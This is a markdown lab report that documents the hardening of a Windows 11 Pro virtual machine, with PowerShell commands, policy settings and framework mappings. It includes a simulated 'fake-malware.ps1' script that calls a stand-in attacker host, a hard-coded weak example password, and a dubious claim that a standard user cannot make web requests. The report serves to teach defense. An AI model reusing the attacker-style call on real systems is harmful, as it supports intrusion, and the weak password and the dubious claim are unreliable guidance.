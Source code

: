 # Hardening Report — Windows 11 Endpoint

This report documents the technical steps taken to harden a default Windows 11 Pro system in a virtual lab. Actions were selected to improve local account control, enforce least privilege, implement basic password policy hygiene, and simulate real-world defense-in-depth principles. Each step includes rationale, implementation, and verification details.

---

## Before vs. After Summary

| Category              | Before                         | After                          |
|-----------------------|--------------------------------|--------------------------------|
| Guest Account         | Enabled                        | Disabled                       |
| Admin Account Name    | `Administrator`                | `svc_sysmgr`                   |
| Daily User Privilege  | Admin                          | Standard (non-admin)           |
| Password Complexity   | Disabled                       | Enabled                        |
| Password Min Length   | 8                              | 12                             |
| UAC Settings          | “Never Notify”                 | “Always Notify”                |
| Audit Policy          | Not configured                 | Enabled for logon, privilege use, object access |
| PowerShell Execution  | Unrestricted as admin          | Blocked or UAC-protected       |

---

## Account Control

### Renamed Default Administrator Account
- **Why:** Obfuscates a high-value target account frequently exploited by attackers
- **Command:**
  ```powershell
  Rename-LocalUser -Name "Administrator" -NewName "svc_sysmgr"
  ```
- **Verification:**  
  ```powershell
  net user
  ```  
   ![Admin Rename](./images/admin_rename.png)

---

### Disabled Guest Account
- **Why:** Prevents unauthenticated logons via built-in low-privilege account
- **Command:**
  ```powershell
  Disable-LocalUser -Name "Guest"
  ```
- **Verification:**
  ```powershell
  net user Guest
  ```  
  Look for `Account active: No`  

 ![Disable Guest](./images/disable_guest.png)

---

### Created Standard User Account
- **Why:** Enforces least privilege for daily tasks
- **Commands:**
  ```powershell
  net user TestUser Password123! /add
  net localgroup Users TestUser /add
  net localgroup Administrators TestUser /delete
  ```
- **Verification:** Group membership before/after  

 ![Users Group](./images/users_group.png)
---

## Password Policy

### Enforced Strong Password Requirements
- **Min length:** `12`
- **Complexity:** Enabled (uppercase, lowercase, number, symbol)
- **Password history:** 12 remembered
- **Min age:** 1 day
- **Max age:** left at default (42 days)
- **How:**  
  `gpedit.msc → Computer Configuration → Windows Settings → Security Settings → Account Policies → Password Policy`  
![Disable Guest](./images/gpo_password_policy_before.png)
![Disable Guest](./images/gpo_password_policy_after.png)

---

### Enabled Password Length Auditing
- **What:** Set `Minimum password length audit` to `16`
- **Why:** Allows auditing before enforcing stricter policy
- included with password policy screenshot

---

### Disabled Insecure Options
- **Reversible encryption:** Disabled  
- **Relax minimum length enforcement:** Disabled  

---

## User Account Control (UAC)

### Raised UAC Settings
- **Change:** “Never notify” → “Always notify”
- **Why:** Ensures elevation prompts appear for all privileged actions
- **How:**  
  `Control Panel → User Accounts → Change User Account Control settings`
- `images/uac_before.png`, `images/uac_after.png`

---

## Audit Policy Configuration

### Enabled Basic Security Auditing
- **Enabled policies:**
  - `Audit logon events`
  - `Audit privilege use`
  - `Audit process tracking`
  - `Audit object access`
- **Why:** Provides visibility into login behavior, permission use, and program execution
- **How:**  
  `gpedit.msc → Security Settings → Local Policies → Audit Policy`
- `images/audit_policy_configured.png`

---

## Simulated Payload Test (Before vs. After)

### Purpose
To demonstrate the impact of user privilege and UAC on potentially malicious PowerShell execution, simulating initial access tactics commonly seen in real-world attacks.

### Method
Created a harmless but suspicious PowerShell script:

```powershell
# fake-malware.ps1
Write-Output "Connecting to attacker..."
Start-Sleep -Seconds 2
Invoke-WebRequest http://malicious.example.com -UseBasicParsing
Write-Output "Payload delivered."
```

### Before Hardening
- Executed as built-in Admin user
- Ran silently, made outbound request without prompt
- `images/fake_payload_admin_exec.png`

### 🛡️ After Hardening
- Ran as standard user with UAC enforced
- Blocked or triggered elevation prompt
- Prevented web request due to lack of admin rights
- `images/fake_payload_blocked_standard_user.png`

### ATT&CK Mapping:
- `T1059` – Command and Scripting Interpreter  
- `T1204` – User Execution

---

## Framework Alignment

This hardening configuration aligns with:
- **CIS Microsoft Windows 11 Benchmark – Level 1**
- **NIST 800-53 Rev 5** control families:
  - `AC-2` (Account Management)  
  - `AC-6` (Least Privilege)  
  - `AU-2` (Audit Events)  
  - `IA-5` (Authenticator Management)

---

## Conclusion

This lab simulates common endpoint hardening tasks in a Windows 11 Pro environment, executed without domain infrastructure. Though foundational, these controls form the baseline for defense-in-depth strategies and reflect real-world configurations used in help desk, desktop support, and SOC environments.

This project demonstrates practical experience with:
- PowerShell administration
- Group Policy configuration
- Privilege management
- UAC tuning
- Scripted security testing
- Technical documentation
